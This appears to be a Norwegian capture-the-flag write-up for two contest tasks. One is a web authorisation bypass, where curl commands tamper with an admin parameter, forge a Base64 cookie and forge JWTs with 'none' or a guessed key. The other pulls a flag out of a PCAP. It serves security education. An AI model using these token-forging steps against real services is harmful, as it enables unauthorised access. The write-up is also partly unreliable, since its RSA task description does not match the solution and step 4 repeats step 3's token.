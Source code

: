 # Sikkerhetsfestivalen

## SHAMROCK4

### Oppgave

Oppgaven gir et flagg kryptert med en variasjon av RSA. Målet blir å finne `p` og `q`, som er faktorer vi må ha for å løse opp kryptoen, der vi er gitt `n`. 

### Løsning

1. Endrer parameter i get request fra [`?admin=false`](https://shamrock4.sf24.no/api/endpoint1?admin=false) til [`?admin=true`](https://shamrock4.sf24.no/api/endpoint1?admin=true).

```bash
curl "https://shamrock4.sf24.no/api/endpoint1?admin=true"
# d7d31d74dd0f522068c0847e24b6d3ecca760a7bbc562501cd74b4897d5c8db7
```

2. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9_.',true,false)Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)To_Base64('A-Za-z0-9%2B/%3D')&input=ZXlBaVlXUnRhVzRpT2lCbVlXeHpaU0I5) for å dekode Base64 og endre `admin: false` til `admin: true`. Enkoder så tilbake til Base64.

Den nye strengen kan nå brukes til å autentisere innloggingen. Til dette brukte jeg CURL:
```bash
curl "https://shamrock4.sf24.no/api/endpoint2" -b "session_api2=eyAiYWRtaW4iOiB0cnVlIH0="

# d1402a40665a5a2beaa926f40e4f09f85e2786d077b0d528b0934f3b5012418e
```

3. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('','None')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmhaRzFwYmlJNlptRnNjMlY5Lk1sU1plU1J0ZDhBQmZNZlBKbnJjWGlaZ1VkQlZ5QXpHalhweHlaTldGbEE) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: none`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 11c8c2d0cf65f31bb375c94ac58b45b720379162331798996f5c378e4a848c9e
```

4. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('james','HS256')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmxiblpwY205dWJXVnVkQ0k2SW1SbGRpSXNJblZ6WlhKdVlXMWxJam9pYW1GdFpYTWlMQ0poWkcxcGJpSTZabUZzYzJVc0luTnBaMjVyWlhrdGJtOTBaU0k2SW5WelpYSnVZVzFsSUdseklHOXJJR2x1SUdSbGRpQmxiblpwY205dWJXVnVkQ3dnWW5WMElIVnpaU0IyWVd4cFpDQnpaV055WlhRZ2EyVjVJR2x1SUhCeWIyUjFZM1JwYjI0aWZRLnBSbEhhZWNTWFBpTTNkeWR4V2o3Ti1kYWhtdDV3WEZZbWl3OHlRcHRKdHM) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: HS236` med key `james`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 441dc7d00f11ab62016c58b2b024abcf850229bdc9c106ef2389f50454fe77da
```

<details>
<summary>Flagg</summary>

`flag{hvis_n_kan_faktoreres_blir_det_problemer}`
</details>



## SUS

### Oppgave

Oppgaven gir en PCAP med en ukryptert forbindelse mellom en klient og en server.

### Løsning

Vi kan lese meldingene i forbindelsen ved å se på dataen i pakkene. Vi leter oss kjapt fram til kommandoen som etterspør `flag.txt` og responsen: `U0YyNHtyM3YzcnMzX3NoM2xsX2ludDBfM3hmMWx9`

Dekoder vi dette fra Base64 finner vi flagget.

<details>
<summary>Flagg</summary>

`SF24{r3v3rs3_sh3ll_int0_3xf1l}`
</details>
